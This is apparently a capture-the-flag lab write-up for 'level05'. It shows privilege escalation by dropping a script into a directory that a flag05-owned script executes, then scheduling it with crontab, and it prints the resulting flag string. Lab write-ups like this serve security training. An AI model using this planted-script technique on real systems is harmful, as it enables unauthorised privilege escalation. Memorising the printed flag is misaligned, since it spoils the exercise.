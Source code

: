 # level05

We got some intel from level00:
-rwxr-x---+ 1 flag05  flag05      94 Mar  5  2016 openarenaserver
/opt/openarenaserver
/usr/sbin/openarenaserver
/rofs/opt/openarenaserver
/rofs/usr/sbin/openarenaserver

```cat /usr/sbin/openarenaserver``` shows a bash script that runs all scripts in ```/opt/openarenaserver```

```ls -la /usr/sbin/openarenaserver``` shows that this script belongs to flag05, thus executing it with crontab would maybe esacalte privileges

```echo -e "getflag > /opt/openarenaserver/flag" > /opt/openarenaserver/exploit.sh```

```crontab -e``` then ```* * * * * /opt/openarenaserver/exploit.sh``` to execute exploit every minute

wait for < 1 minute for crontab to execute

```cat /opt/openarenaserver/flag```

gives flag: ```viuaaale9huek52boumoomioc```
